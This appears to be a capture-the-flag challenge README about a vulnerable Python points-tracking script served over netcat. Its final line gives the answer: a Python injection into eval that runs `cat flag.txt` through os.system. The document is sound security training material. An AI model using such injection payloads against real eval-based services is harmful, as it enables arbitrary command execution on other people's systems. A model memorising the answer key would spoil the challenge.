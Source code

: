 # Pod EVALuation

Pod 1.3.3.7 made a reward system to fellows that are helping
each other. The idea is to add points to a fellow every time
they help another fellow. Then, during the pod evaluation,
the points each member earned are summed up and fellows get
prizes depending on the amount of points they earned. They
tried coding a simple python script to help them and hosted
it in a server to store the points, but something about this
code doesn't smell right to you. They asked Will to test the
code, but he's not sure the code is flawless.

**Obs:** You do NOT need (or should) use brute forcing techniques
to solve this issue. Doing so is against the rules.

`nc <server_ip> <server_port>`
**Obs (to ctf crew):** give the `sum.py` file to contestants as well

**Solution:** inject python code on `eval`: `__import__('os').system('cat flag.txt')`
